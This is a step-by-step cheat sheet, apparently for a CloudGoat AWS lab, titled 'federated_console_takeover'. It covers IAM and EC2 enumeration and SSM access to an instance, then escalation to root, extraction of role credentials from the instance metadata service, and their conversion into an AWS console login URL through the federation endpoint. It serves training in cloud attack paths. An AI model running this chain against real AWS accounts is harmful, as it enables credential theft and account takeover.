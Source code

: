 ## Cheat Sheet - federated_console_takeover
---

### Step 1: Initial Access and Enumeration

---

1. First, configure your AWS CLI with the provided credentials:

```bash
# Enter the provided Access Key, Secret Key, and region (us-east-1)
aws configure --profile
```

2. Verify your identity:

```bash
# Verifying your profile key
aws sts get-caller-identity --profile
```

3. Enumerate EC2 instances to locate potential public targets:

```bash
aws ec2 describe-instances --profile
```

4. Identify IAM instance profiles attached to EC2 instances:

```bash
aws ec2 describe-instances --query "Reservations[].Instances[].IamInstanceProfile.Arn" --profile
```

5. List available IAM roles to identify potential high-privilege roles:

```bash
# List all roles
aws iam list-roles

# Query only roles that contain the profile instance
aws iam list-roles --query "Roles[?contains(RoleName, 'cg-ec2-admin')].[RoleName]" --profile
```

### Step 2: EC2 Access via SSM Session Manager

---

1. Install SSM Session Manager Plugin on your local. This step is required to access the EC2 through SSM Session Manager:

```bash
# Debian install
curl "https://s3.amazonaws.com/session-manager-downloads/plugin/latest/ubuntu_64bit/session-manager-plugin.deb" -o "session-manager-plugin.deb"

# Install Command
sudo dpkg -i session-manager-plugin.deb
```

### Step 3: IMDSv2 Exploitation

---

1. Access the EC2 instance using SSM Session Manager:

```bash
aws ssm start-session --target i-<instance_id> --profile
```

2. Identity User (You should be logged in as ssm-user):

```bash
# Identify user
whoami
```

3. Switch to root user:

```bash
# Switch user
sudo -i

# Identify user
whoami
```

4. Generate an IMDSv2 token: You can perform this step to do further CLI enumeration with elevated privileges otherwise you can skip to Step 4 to generate management console URL.

```bash
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
```

5. Use the token to retrieve the IAM role name:

```bash
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

6. Retrieve the temporary credentials for the IAM role:

```bash
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```

7. Configure the AWS CLI with the retrieved temporary credentials:

```bash
# Configure a new AWS CLI profile using the temporary credentials
aws configure --profile

# Add the session token manually (AWS CLI v2 does not prompt for it)
aws configure set aws_session_token <Token from the metadata output> --profile
```

8. Verify your identity:

```bash
# Verifying your profile key
aws sts get-caller-identity --profile
```

### Step 4: Federation URL Generation

---

1. Request a metadata token for IMDSv2 (required to access EC2 instance metadata securely):

```bash
TOKEN=$(curl -sX PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
```

2. Retrieve the IAM role name attached to the EC2 instance using the metadata token:

```bash
ROLE_NAME=$(curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/)
```

3. Retrieve temporary security credentials for the IAM role:

```bash
CREDS=$(curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME)
```

4. Build the session JSON object required for AWS federation login:

```bash
SESSION_JSON=$(jq -n \
--arg sid "$(echo "$CREDS" | jq -r '.AccessKeyId')" \
--arg skey "$(echo "$CREDS" | jq -r '.SecretAccessKey')" \
--arg stoken "$(echo "$CREDS" | jq -r '.Token')" \
'{sessionId: $sid, sessionKey: $skey, sessionToken: $stoken}')
```

5. URL-encode the temporary session JSON for use in the federation URL:

```bash
SESSION_URL_ENCODED=$(python3 -c "import urllib.parse, sys; print(urllib.parse.quote(sys.stdin.read()))" <<< "$SESSION_JSON")
```

6. Request a SignIn token using the encoded session:

```bash
SIGNIN_TOKEN=$(curl -s "https://signin.aws.amazon.com/federation?Action=getSigninToken&Session=$SESSION_URL_ENCODED" | jq -r '.SigninToken')
```

7. Generate the AWS Management Console login URL using the SignIn token:

```bash
LOGIN_URL="https://signin.aws.amazon.com/federation?Action=login&Issuer=cli-script&Destination=https://console.aws.amazon.com/&SigninToken=$SIGNIN_TOKEN"
```

8. Echo Sign in URL

```bash
echo "$LOGIN_URL"
```